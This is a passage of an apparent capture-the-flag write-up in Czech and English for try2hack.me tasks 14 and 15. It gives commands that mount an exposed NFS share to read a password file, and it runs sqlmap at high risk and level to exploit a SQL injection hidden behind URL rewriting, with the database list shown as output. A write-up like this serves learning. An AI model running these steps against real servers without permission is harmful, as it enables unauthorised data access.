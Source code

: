 
<details><summary>FLAG:</summary></details>

---

## Úkol č. 14

### Zadání:

Správce serveru, na kterém se právě nacházíš, používá ke sdílení dat síťové úložiště. Podaří se ti je objevit a získat tak heslo pro splnění tohoto úkolu?

---

### Postup řešení

```bash
sudo mount -t nfs try2hack.me:$(showmount -e try2hack.me | tail -n 1 | awk '{ print $1 }') ./tmp/
cat ./tmp/Password.txt
sudo umount ./tmp
```

---

<details><summary>FLAG:</summary></details>

---

## Úkol č. 15

### Zadání:

Cílový server používá pro monetizaci obsahu vlastní reklamní systém založený na bannerové reklamě. Podaří se ti v něm odhalit chybu a získat tak tajné heslo pro splnění tohoto úkolu?

---

### Postup řešení

After (long painful manual) checking for usual stuff we noticed that the URL for banner pictures [https://try2hack.me/a/5](https://try2hack.me/a/5) acts funny (can perform mathematical expressions and stuff). The trick was SQL injection behind URL rewrite, see [https://www.cybrary.it/0p3n/test-exploit-sql-injections-url-rewrite-rules/](https://www.cybrary.it/0p3n/test-exploit-sql-injections-url-rewrite-rules/) and [https://www.binarytides.com/sqlmap-hacking-tutorial/](https://www.binarytides.com/sqlmap-hacking-tutorial/) for reference.

After checking for SQL injections with `sqlmap`:

```bash
sqlmap -u "https://try2hack.me/a/1*" --random-agent --level 5 --risk 3 --dbs
```

Which after while returned:

```bash
available databases [2]:
[*] information_schema
[*] production
```
